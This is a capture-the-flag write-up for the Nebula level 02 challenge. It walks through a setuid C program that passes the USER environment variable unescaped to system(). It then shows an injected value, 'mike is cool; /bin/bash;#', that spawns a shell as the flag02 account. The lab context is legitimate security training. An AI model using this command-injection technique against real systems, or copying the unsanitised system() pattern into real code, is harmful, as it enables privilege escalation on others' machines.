 # Level 02
This challenge gives us source code to the flag02 binary that we need to exploit.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}

```

The program does not escape semicolons which can be used to inject arbitrary commands.

```
level02@nebula:/home/flag02$ export USER=mike is cook

level02@nebula:/home/flag02$ ./flag02  cool
about to call system("/bin/echo mike is cool")
mike is cool

level02@nebula:/home/flag02$ export USER="mike is cool; /bin/bash;#"

level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo mike is cool; /bin/bash;# is cool")
mike is cool

flag02@nebula:/home/flag02$ id
uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```
